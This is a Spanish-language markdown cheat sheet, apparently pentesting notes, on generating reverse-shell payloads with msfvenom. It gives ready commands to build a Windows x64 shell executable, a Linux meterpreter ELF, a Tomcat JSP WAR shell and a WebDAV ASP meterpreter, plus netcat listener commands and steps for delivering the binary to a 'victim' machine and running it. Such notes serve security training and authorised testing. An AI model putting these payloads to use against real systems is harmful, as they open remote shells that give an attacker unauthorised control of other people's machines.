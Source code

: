 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

### Windows Meterpreter

* Nos sirve para crear un binario malicioso, para después usar Metasploit y obtener la ReverShell para maquinas Windows 

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

* Nos ponemos en escucha por Netcat:
```bash 
❯ rlwrap nc -nlvp 443
```
* Ejecutamos el binario que subimos a Windows y ganamos acceso

### Linux Meterpreter

```python 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

* Nos ponemos en escucha por Netcat:dows
```bash 
❯ nc -nlvp 443
```
* Ejecutamos el binario que subimos a Linux y ganamos acceso

## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## WebDAV

```bash 
# Al payload le llamaremos shell.asp
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=1234 -f asp > shell.asp
	# p = payload 
	# f = formato
```